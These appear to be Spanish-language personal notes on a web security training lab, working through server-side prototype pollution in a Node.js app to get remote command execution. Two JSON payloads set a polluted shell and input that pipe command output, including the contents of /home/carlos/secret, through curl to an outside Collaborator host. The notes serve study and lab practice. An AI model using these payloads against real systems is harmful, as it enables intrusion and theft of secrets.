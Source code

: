Nunca me iba a funcionar si no activaba todo dandole al bendito boton del admin panel, ajajaj:

![[Pasted image 20250219204743.png]]

![[Pasted image 20250219204756.png]]

La pestaña del repeater `Activate RCE - admin/jobs` es precisamente para tirar el cleanupDB que ya conocemos, está pestaña de arriba de la imagen es en la que inserto el comando, que cuando voy al collaborator me aparece el testFelipe encodeado en base64:

![[Pasted image 20250219204810.png]]
![[Pasted image 20250219204839.png]]

```jsx
"constructor":{
	"prototype":{
		"shell":"vim",
		"input":"! echo felipe | curl -d @- <https://COLLAB.oastify.com>\\n"	
 	}
},
```

![[Pasted image 20250219204938.png]]
#### cat /home/carlos/secret → PAYLOAD FINAL.

Entonces seguiré probando con otros comandos como ls, pwd, para ver donde estoy y luego tirar el comando definitivo que me enliste el directorio **/home/carlos** donde pueda ver el `secret`

```jsx
"constructor":{
	"prototype":{
		"shell":"vim",
		"input":"! cat /home/carlos/secret | base64 | curl -d @- <https://COLLAB.oastify.com>\\n"	
 	}
},
```

Eso es todo hp vida. 

